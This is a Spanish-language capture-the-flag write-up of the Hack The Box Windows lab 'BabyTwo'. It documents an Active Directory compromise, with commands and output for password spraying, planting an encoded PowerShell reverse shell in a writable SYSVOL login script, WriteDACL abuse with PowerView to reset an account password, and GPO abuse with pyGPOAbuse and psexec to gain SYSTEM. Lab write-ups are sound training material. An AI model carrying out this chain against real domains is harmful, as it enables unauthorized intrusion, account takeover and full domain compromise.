---


## Ficha Técnica

- **Nombre de la máquina:** BabyTwo
- **Dificultad:** Media
- **Plataforma:** Hack The Box
- **Autor:** xct

> **BabyTwo** es una máquina Windows de dificultad media orientada a la práctica de explotación en entornos de **Active Directory**.
>
> La intrusión inicial se logra mediante la enumeración de usuarios a partir de recursos compartidos (`homes`) y la explotación de permisos de escritura inseguros en los scripts de inicio de sesión de `SYSVOL`, permitiendo la ejecución remota de código. Posteriormente un movimiento lateral mediante el abuso del permiso `WriteDACL` en Active Directory. Finalmente, se alcanza el compromiso total del controlador de dominio explotando el privilegio `GenericAll` sobre las políticas predeterminadas de grupo (_GPO_), obteniendo acceso como `NT AUTHORITY\SYSTEM`.

---

## Fase 1: Reconocimiento

### 1.1. Comprobación de conectividad

Se verificó la conectividad con el sistema objetivo mediante el envío de cuatro paquetes ICMP:

**Comando ejecutado:**

```bash
ping -c 4 10.129.234.72
```

**Resultados**

```bash
PING 10.129.234.72 (10.129.234.72) 56(84) bytes of data.
64 bytes from 10.129.234.72: icmp_seq=1 ttl=127 time=285 ms
64 bytes from 10.129.234.72: icmp_seq=2 ttl=127 time=115 ms
64 bytes from 10.129.234.72: icmp_seq=3 ttl=127 time=116 ms
64 bytes from 10.129.234.72: icmp_seq=4 ttl=127 time=116 ms

--- 10.129.234.72 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 114.589/157.960/285.196/73.462 ms
```

>**Conclusión:** La conectividad es estable (**0% de pérdida de paquetes**). Además, el valor del TTL (127) es cercano al valor predeterminado en sistemas Windows, lo que indica con alta probabilidad que el objetivo utiliza dicho sistema operativo.

---

### 1.2. Escaneo de puertos TCP

A continuación, se efectuó un escaneo de todo el rango de puertos TCP para identificar aquellos en estado abierto mediante la herramienta Nmap.

**Comando ejecutado:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.234.72
```

**Resultados:**

```bash
Nmap scan report for 10.129.234.72
Host is up (0.12s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
**************************<Recortado>**************************
```

> **Conclusión:** Se identificaron 22 puertos abiertos. La presencia simultánea de servicios como DNS (53), Kerberos (88), LDAP (389) y SMB (445) confirma que el objetivo es un entorno Windows y opera específicamente como un **Controlador de Dominio de Active Directory (AD)**. Asimismo, los puertos 3389 (RDP) y 5985 (WinRM), destinados a la administración remota, representan vectores de acceso potenciales en fases posteriores una vez que se obtengan credenciales válidas.

---

## Fase 2: Enumeración

### 2.1. Enumeración general de puertos abiertos

Una vez identificados los puertos abiertos, se profundizó en la enumeración de los mismos utilizando scripts de reconocimiento y detección de versiones de Nmap (`-sCV`).

**Comando ejecutado:**

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49667,49674,49675,49687,49842,51726,51740 -sCV -Pn -n 10.129.234.72
```

**Resultados:**

```bash
Nmap scan report for 10.129.234.72
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-18 19:36:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
**************************<Recortado>**************************
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-18T19:38:08+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2026-08-17T18:27:11
|_Not valid after:  2027-02-16T18:27:11
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-18T19:37:29+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
**************************<Recortado>**************************
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-08-18T19:37:29
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 18 13:38:11 2026 -- 1 IP address (1 host up) scanned in 103.75 seconds
```

### Conclusiones relevantes

- **Nombre del Dominio:** `baby2.vl`
- **Confirmación de rol:** Se confirmó que el sistema opera como **Controlador de Dominio (DC)** mediante el hostname (`dc.baby2.vl`) y los metadatos devueltos por los servicios de directorio y Kerberos.
- **Mitigación contra SMB Relay:** El parámetro `Message signing enabled and required` indica que la firma SMB está habilitada y es obligatoria, lo que descarta la ejecución de ataques de tipo _SMB Relay_ contra este host. 

---

### 2.2. Enumeración SMB

Antes de continuar con la auditoría, se agregaron los dominios `baby2.vl` y `dc.baby2.vl` al archivo `/etc/hosts` para facilitar las fases posteriores.

Tras descartar la posibilidad de realizar una transferencia de zona DNS, se inició la enumeración del protocolo SMB utilizando **NetExec** con el fin de comprobar el acceso a recursos compartidos mediante credenciales de invitado.

**Comando ejecutado:**

```bash
nxc smb 10.129.234.72 -u 'guest' -p '' --shares
```

**Resultados y análisis de recursos compartidos:** Se verificó que, mediante una sesión de invitado, se obtienen los siguientes permisos sobre los recursos compartidos:

- **apps:** Lectura
- **homes:** Lectura y escritura
- **IPC$:** Lectura
- **NETLOGON:** Lectura



Dado que el recurso `homes` sugiere la existencia de directorios personales de usuario, se priorizó su análisis con el objetivo de exfiltrar datos sensibles o identificar activos de valor. Para ello, se accedió al recurso utilizando la herramienta `smbclient`.

**Comando ejecutado:**

```bash
smbclient //baby2.vl/homes -N
```

>**Conclusión:** Si bien dentro del recurso `homes` no se encontraron archivos relevantes para la auditoría, las carpetas contenidas en él revelaron información muy relevante: Sus nombres corresponden aparentemente a los usuarios propietarios de las cuentas. Esto permitió generar una lista de **11 posibles usuarios válidos**.



---

### 2.3. Prueba de política de contraseñas

Dado que en entornos corporativos es común asignar cuentas de usuario con credenciales basadas en su propio nombre de usuario de forma predeterminada, se procedió a realizar una comprobación de usuario/contraseña idénticos.

Para ello, se utilizó **NetExec** empleando el archivo de usuarios previamente obtenido (`possibleUsers.txt`) tanto para los usuarios como para las contraseñas. Se utilizó el parámetro `--no-bruteforce` para evitar múltiples combinaciones por cuenta y `--continue-on-success` para asegurar que el escaneo continúe con el resto de la lista tras encontrar una coincidencia válida.

**Comando ejecutado:**

```bash
nxc smb 10.129.234.72 -u possibleUsers.txt -p possibleUsers.txt --continue-on-success --no-bruteforce
```

**Resultados:** Se descubrió que dos de las cuentas emplean una contraseña idéntica a su nombre de usuario:
  
- `Carl.Moore : Carl.Moore` 
- `library : library`




#### Validación de acceso para el usuario `Carl.Moore`

A continuación, se validó la autenticidad de las credenciales obtenidas para el usuario `Carl.Moore`:

```bash
nxc smb 10.129.234.72 -u 'Carl.Moore' -p 'Carl.Moore'
nxc winrm 10.129.234.72 -u 'Carl.Moore' -p 'Carl.Moore'
```

**Resultados:** Aunque las credenciales son válidas, el usuario no forma parte de los grupos de administración remota, por lo que el acceso mediante WinRM fue denegado:

```bash
SMB       10.129.234.72     445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:baby2.vl) 

SMB       10.129.234.72     445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore

WINRM     10.129.234.72     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:baby2.vl) 

WINRM     10.129.234.72     5985   DC               [-] baby2.vl\Carl.Moore:Carl.Moore
```

Posteriormente, se procedió a enumerar los recursos compartidos accesibles con este usuario mediante SMB:

```bash
nxc winrm 10.129.234.72 -u 'Carl.Moore' -p 'Carl.Moore' --shares
```

**Resultados:** Se identificó que el usuario `Carl.Moore` posee privilegios ampliados sobre los recursos compartidos:



- **apps:** Lectura y escritura 
- **docs:** Lectura y escritura
- **homes:** Lectura y escritura
- **IPC$:** Lectura
- **NETLOGON:** Lectura
- **SYSVOL:** Lectura

#### Enumeración del recurso SYSVOL

Se priorizó la revisión del recurso `SYSVOL`, ya que este almacena políticas de grupo y scripts de inicio de sesión que, ante configuraciones de permisos deficientes, suelen filtrar información sensible o credenciales en texto plano.

**Comando ejecutado:**

```bash
smbclient //baby2.vl/SYSVOL -U 'Carl.Moore'
```

**Resultados:** Dentro de la ruta de scripts del dominio (`\baby2.vl\scripts`), se localizó el archivo `login.vbs`, el cual corresponde a un script de inicio de sesión.



---

## Fase 3: Explotación

### 3.1. Acceso inicial a través de SYSVOL

Se descargó e inspeccionó el contenido del script de inicio de sesión (`login.vbs`), el cual inicialmente no contenía ningún dato sensible o de interés directo para la auditoría.

**Contenido del archivo `login.vbs`:**



A pesar de que el script en cuestión no representaba un vector de ataque por sí mismo, se evaluó la posibilidad de alterarlo. Aunque el recurso principal `SYSVOL` cuenta únicamente con permisos de lectura a nivel general, es común que las subcarpetas presenten configuraciones de permisos diferentes.

Para comprobarlo, se intentó subir un archivo de prueba dentro de la sesión de `smbclient` en la ruta correspondiente a los scripts:

```bash
put test.txt
```

**Resultados:** Tras confirmar que el archivo se subió correctamente, se eliminó de inmediato. Esto confirmó la existencia de una falla de seguridad: **se cuenta con capacidad de escritura en la subcarpeta de scripts**, lo que permite la modificación de políticas de inicio de sesión (*Abuso de scripts de inicio de sesión*).



#### Intrusión y acceso mediante el usuario `amelia.griffiths`

La estrategia de explotación consistió en modificar el script de inicio de sesión para incluir una _reverse shell_ codificada en PowerShell. El procedimiento se estructuró de la siguiente manera:

1. **Modificación del script:** Se eliminó el archivo `login.vbs` original dentro de la sesión de `smbclient` y se subió la versión modificada conteniendo la carga útil (_payload_).
   
2. **Script de inicio de sesión malicioso (Extracto):**

```VBScript
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
  
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
**************************<Recortado>**************************
    Set objNetwork = Nothing
End Sub

CreateObject("WScript.Shell").Run "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0A..", 0, True

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

3. **Configuración del _listener_:** Previo a la ejecución por parte de un usuario del dominio, se configuró el receptor en la máquina atacante:

```bash
nc -nlvp 9001
```

> **Conclusión:** Tras la autenticación e inicio de sesión del usuario `amelia.griffiths`, el script se ejecutó de forma automática, permitiendo obtener una sesión interactiva y acceso inicial al sistema objetivo.



---

## Fase 4: Post-Explotación

### 4.1. Enumeración a nivel de dominio con BloodHound

Tras una breve enumeración local, se detectó que el usuario actual forma parte de un grupo global no estándar (_legacy_). En este escenario, resulta indispensable utilizar herramientas de análisis de relaciones como **BloodHound** para realizar una enumeración exhaustiva del dominio en busca de vectores de movimiento lateral o escalada de privilegios.



#### Movimiento lateral mediante abuso de DACL

Para recopilar la información del Directorio Activo, se utilizó `bloodhound-python` con el fin de generar los archivos en formato `.json` e importarlos posteriormente a la interfaz gráfica para su análisis.

**Comando ejecutado:**

```bash
bloodhound-python -u 'Carl.Moore' -p 'Carl.Moore' -d baby2.vl -ns 10.129.234.72 -c All
```

**Resultados:** Una vez analizada la base de datos en BloodHound, se identificó que el usuario `amelia.griffiths` posee el privilegio **`WriteDACL`** sobre el objeto de usuario `gpoadm`.

> **Nota:** WriteDACL es un permiso crítico de seguridad en Active Directory que permite a un usuario modificar la Lista de Control de Acceso Discrecional (**DACL**) de un objeto. Quien posee este derecho puede cambiar quién tiene acceso a dicho objeto y otorgarse a sí mismo control total sobre él.



Para explotar este vector, se transfirió el script **PowerView.ps1** al sistema objetivo y se ejecutaron los siguientes pasos:

**Paso 1:** Se importó el módulo en la sesión de PowerShell y se asignó el privilegio `GenericAll` sobre el usuario objetivo `gpoadm` aprovechando los permisos de `WriteDACL`:

```powershell
PS C:\Windows\Temp\privEsc> Import-Module .\PowerView.ps1
PS C:\Windows\Temp\privEsc> Add-DomainObjectAcl -TargetIdentity gpoadm -Rights All -PrincipalIdentity amelia.griffiths
```

**Paso 2:** Con el control total (_GenericAll_) concedido sobre la cuenta, se procedió a realizar un cambio de contraseña forzado (_forced password reset_):

```powershell
PS C:\Windows\Temp\privEsc> $UserPassword = ConvertTo-SecureString 'P@ssw0rd1234!' -AsPlainText -Force
PS C:\Windows\Temp\privEsc> Set-DomainUserPassword -Identity gpoadm -AccountPassword $UserPassword
```

**Paso 3:** Se validó la efectividad de las nuevas credenciales frente al servicio SMB:

```bash
nxc smb 10.129.234.72 -u 'gpoadm' -p 'P@ssw0rd1234!'
```

**Resultado:**

```plaintext
SMB       10.129.234.72     445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:baby2.vl) 

SMB       10.129.234.72     445    DC               [+] baby2.vl\gpoadm:P@ssw0rd1234!
```

> **Conclusión:** Aunque las credenciales de `gpoadm` son válidas, esta cuenta tampoco forma parte de los grupos de administración remota, por lo que aún no es posible establecer una sesión interactiva directa a través de WinRM. Será necesario continuar con la búsqueda de rutas de escalada dentro del grafo de Active Directory.

---

### 4.2. Escalada de privilegios mediante abuso de GPO

A pesar de no obtener un acceso remoto directo en la fase anterior, al contar con el control total de la cuenta `gpoadm`, se revisaron nuevamente sus privilegios dentro de Active Directory. Se descubrió que este usuario posee el privilegio **`GenericAll`** sobre las políticas predeterminadas del dominio (_Default Domain Policies_).

> **Nota (`GenericAll` sobre GPO):** Este privilegio otorga control total para modificar configuraciones de seguridad globales, inyectar tareas programadas o scripts de inicio de sesión, facilitando la escalada de privilegios y el compromiso absoluto del dominio.



### Abuso de GPO con `pyGPOAbuse`

Para explotar este vector, se utilizó la herramienta `pyGPOAbuse`. El proceso de preparación en la máquina atacante consistió en los siguientes pasos:

**Paso 1:** Clonar el repositorio y acceder a la carpeta del proyecto:

```bash
git clone https://github.com/Hackndo/pyGPOAbuse
cd pyGPOAbuse
```

**Paso 2:** Crear un entorno virtual para aislar las dependencias:

```bash
python3 -m venv venv
```

**Paso 3:** Activar el entorno virtual:

```bash
source venv/bin/activate
```

**Paso 4:** Instalar los requerimientos necesarios:

```bash
pip install -r requirements.txt
```

### Ejecución de código arbitrario

El vector seleccionado consistió en modificar la directiva de grupo para añadir al usuario `gpoadm` directamente al grupo local de **Administradores**.

**Comando ejecutado:**

```bash
python3 pygpoabuse.py 'baby2.vl/gpoadm:P@ssw0rd1234!' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup Administrators gpoadm /add' -f
```

> **Resultados:** Tras un breve periodo de espera para la propagación de la GPO en el sistema objetivo, se confirmó que el usuario `gpoadm` fue agregado con éxito al grupo de administradores locales.



#### Consolidación y compromiso total

Con los privilegios de administración local obtenidos, fue posible establecer una sesión interactiva con privilegios máximos sobre el controlador de dominio utilizando la herramienta `psexec` de la suite de Impacket:

**Comando ejecutado:**

```bash
impacket-psexec baby2.vl/gpoadm:'P@ssw0rd1234!'@10.129.234.72
```

> **Conclusión final:** Se logró iniciar sesión de forma exitosa bajo la máxima autoridad del sistema (`NT AUTHORITY\SYSTEM`). Finalmente, se procedió a la lectura de las flags correspondientes para concluir con éxito la resolución del laboratorio.



---
